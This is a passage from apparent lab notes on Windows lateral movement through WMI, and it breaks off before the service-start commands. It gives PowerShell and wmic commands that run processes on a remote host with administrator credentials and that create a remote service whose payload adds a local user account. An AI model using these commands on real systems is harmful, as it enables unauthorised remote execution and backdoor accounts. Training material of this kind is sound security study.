 The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.

### <font color="#FFA500">Remote Process Creation Using WMI</font>

* **Ports**:
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships**: Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### <font color="#FFA500">Creating Services Remotely with WMI</font>

* **Ports**:
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships**: Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:
